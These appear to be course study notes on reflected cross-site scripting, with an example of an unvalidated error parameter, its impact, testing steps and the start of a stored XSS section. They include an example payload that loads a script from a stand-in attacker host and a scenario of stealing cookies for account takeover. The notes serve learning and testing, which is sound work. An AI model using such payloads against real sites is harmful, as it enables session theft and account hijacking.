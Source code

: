 ### **Reflected XSS** <a href="#id-5u67pa20sbtf" id="id-5u67pa20sbtf"></a>

* Occurs when user supplied data in an HTTP request is included in the webpage source without any validation.

#### **Reflected XSS Example** <a href="#hp9cq2iz19yb" id="hp9cq2iz19yb"></a>

* A website where if incorrect input is entered, an error message is displayed.
* The content of the error message gets taken from the error parameter in the query string and is built directly into the page source:
  * In the browser: https://website.thm/?error=Invalid Input Detected
  * In the source code:
    * \<div class="alert alert-danger">
    * \<p>Invalid Input Detected\</p>
    * \</div>
* The application doesn't check the contents of the error parameter, which allows the attacker to insert malicious code:
  * In the browser: https://website.thm/?error=\<script src="https://attacker.thm/evil.js">\</script>
  * In the source code:
    * \<div class="alert alert-danger">
    * \<p>\<script src="https://attacker.thm/evil.js">\</script>\</p>
    * \</div>
* The vulnerability could be used as per the scenario below:
  * Attacker sends a link to the victim that contains a malicious payload.
  * Victim clicks the link and is taken to the vulnerable website.
  * Link containing attacker's script is executed on the website.
  * The data that the attacker's script gathered is sent to them.
  * They could steal the victim's cookie.
  * This would allow the attacker to take over the victim's account.

**Potential Impact:**

* The attacker could send links or embed them into an iframe on another website containing a JavaScript payload to potential victims getting them to execute code on their browser, potentially revealing session or customer information.

#### **How to test for Reflected XSS** <a href="#reuv8w9jihsy" id="reuv8w9jihsy"></a>

* Need to test every possible point of entry:
  * Parameters in the URL Query String.
  * URL File Path.
  * Sometimes HTTP Headers (although unlikely exploitable in practice).
* If data has been found which is being reflected in the web application:
  * Confirm that you can successfully run ythe JavaScript payload.
  * The payload will be dependent on where in the application your code is reflected.

### **Stored XSS** <a href="#wb62zdq9436g" id="wb62zdq9436g"></a>

* XSS payload is stored on the web application (in a database, for example) and then gets run when other users visit the site or web page.
